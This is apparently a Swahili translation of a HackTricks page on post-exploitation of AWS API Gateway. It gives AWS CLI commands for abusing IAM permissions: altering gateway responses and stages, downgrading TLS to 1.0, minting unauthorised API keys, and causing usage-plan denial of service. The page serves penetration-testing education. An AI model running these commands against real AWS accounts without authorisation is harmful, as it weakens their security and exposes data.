 # AWS - Uchimbaji wa Baada ya Uvamizi wa API Gateway

<details>

<summary><strong>Jifunze uchimbaji wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za uchimbaji kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## API Gateway

Kwa habari zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Kufikia APIs zisizofichuliwa

Unaweza kuunda mwisho wa [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) na huduma `com.amazonaws.us-east-1.execute-api`, fichua mwisho katika mtandao ambapo una ufikiaji (labda kupitia mashine ya EC2) na weka kikundi cha usalama kuruhusu mawasiliano yote.\
Kisha, kutoka kwenye mashine ya EC2 utaweza kufikia mwisho na hivyo kuita API ya lango ambayo haikufichuliwa awali.

### Mipango ya Matumizi DoS

Katika sehemu ya **Uchambuzi** unaweza kuona jinsi ya **kupata mpango wa matumizi** wa funguo. Ikiwa una funguo na **imepunguzwa** hadi matumizi X **kwa mwezi**, unaweza **kuitumia tu na kusababisha DoS**.

**Funguo ya API** inahitaji tu kuwa **imejumuishwa** ndani ya **kichwa cha HTTP** kinachoitwa **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Mvamizi mwenye ruhusa `apigateway:UpdateGatewayResponse` na `apigateway:CreateDeployment` anaweza **kurekebisha Jibu la Lango lililopo ili kujumuisha vichwa vya desturi au templeti za majibu ambazo hufichua habari nyeti au kutekeleza hati za malicious**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Kutolewa kwa taarifa nyeti, kutekeleza scripti za malicious, au kupata ufikivu usioruhusiwa kwenye rasilimali za API.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:UpdateStage` na `apigateway:CreateDeployment` anaweza **kurekebisha hatua ya API Gateway iliyopo ili kuendeleza trafiki kwenye hatua tofauti au kubadilisha mipangilio ya caching ili kupata ufikivu usioruhusiwa wa data iliyohifadhiwa**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Upatikanaji usiohalali wa data iliyohifadhiwa, kuvuruga au kuingilia trafiki ya API.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:PutMethodResponse` na `apigateway:CreateDeployment` anaweza **kurekebisha jibu la mbinu ya API Gateway REST API iliyopo ili kujumuisha vichwa vya desturi au templeti za majibu ambazo zinaweza kufichua habari nyeti au kutekeleza scripti za malicious**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Athari Inayowezekana**: Kuvuja kwa habari nyeti, kutekeleza script za malicious, au kupata ufikivu usioruhusiwa kwa rasilimali za API.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:UpdateRestApi` na `apigateway:CreateDeployment` anaweza **kurekebisha mipangilio ya API Gateway REST API kwa kuzima kuingiza kumbukumbu au kubadilisha toleo la chini la TLS, ikisababisha kudhoofisha usalama wa API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Athari Inayowezekana**: Kupunguza usalama wa API, ikiruhusu ufikiaji usioruhusiwa au kufichua habari nyeti.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Mshambuliaji mwenye ruhusa za `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, na `apigateway:CreateUsagePlanKey` anaweza **kuunda funguo mpya za API, kuziunganisha na mipango ya matumizi, na kuzitumia funguo hizi kwa ufikiaji usioruhusiwa wa API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Athari Inayoweza Kutokea**: Upatikanaji usiohalali wa rasilimali za API, kukiuka udhibiti wa usalama.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya HackTricks AWS)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
